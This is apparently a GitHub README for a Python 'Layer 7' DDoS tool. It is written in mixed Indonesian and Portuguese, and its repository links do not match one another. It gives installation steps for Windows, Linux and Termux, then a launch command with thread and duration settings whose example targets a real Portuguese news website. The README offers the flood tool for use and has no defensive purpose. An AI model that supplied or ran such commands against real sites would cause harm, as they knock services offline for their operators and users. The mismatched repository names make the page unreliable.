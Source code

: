 <h1 align="center">DDOS Tool (Layer 7) </h1> 
<div align="center">
<img src="https://img.shields.io/badge/Made%20with-Python-1f425f.svg"> <img src="https://svgshare.com/i/ZhY.svg"> <img src="https://img.shields.io/github/forks/7zx/overload?style=social&label=Fork&maxAge=2592000"> <img src="https://img.shields.io/github/stars/7zx/overload?style=social&label=Star&maxAge=2592000"> <img src="https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square"> 
</div>

# :computer: Tampilan
<p align="center">
  <img src="https://raw.githubusercontent.com/tanjilk/overload/main/img/imgshow.png">
</p>

# ⛔ INSTALLATION


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Install Python 3.8 [Link](https://www.python.org/downloads/release/python-38)
  - Buka dan klik: `add python to PATH`
  - Download script <a href="https://github.com/7zx/overload/archive/refs/heads/main.zip" target="blank">Link</a>
  - Install Package: `pip install -r requirements.txt`  


 

 <h2>Linux</h2><img src="https://raw.githubusercontent.com/8fn/overload/main/img/linux-icon-28166.png" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/vynZGaming/LAYER7
cd LAYER7/
pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/vynZGaming/LAYER7
cd LAYER7/
pip3 install -r requirements.txt
```

## ❓ Cara Penggunaan
O comando básico para poder executar o overload é o seguinte.  

```
python3 sneazy.py --time XXX --threads XXX --target [URL] --method HTTP
```

Example:  

```
python3 sneazy.py --time 5000 --threads 550 --target https://www.publico.pt/ --method HTTP
```
